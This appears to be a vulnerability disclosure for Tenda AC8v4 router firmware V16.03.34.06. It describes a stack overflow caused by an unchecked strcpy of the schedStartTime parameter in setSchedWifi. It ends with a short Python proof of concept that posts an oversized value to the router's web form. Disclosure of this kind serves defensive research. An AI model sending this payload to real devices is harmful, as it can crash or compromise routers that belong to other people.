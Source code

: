 # Tenda AC8v4 V16.03.34.06(1)

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr+2` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided  `schedStartTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735650491449](F:\Desktop\工具\二进制漏洞\IoT\img\1735650491449.png)

![1735650523496](F:\Desktop\工具\二进制漏洞\IoT\img\1735650523496.png)

![1735650546634](F:\Desktop\工具\二进制漏洞\IoT\img\1735650546634.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedStartTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](F:\Desktop\工具\二进制漏洞\IoT\img\1735650674572.png)

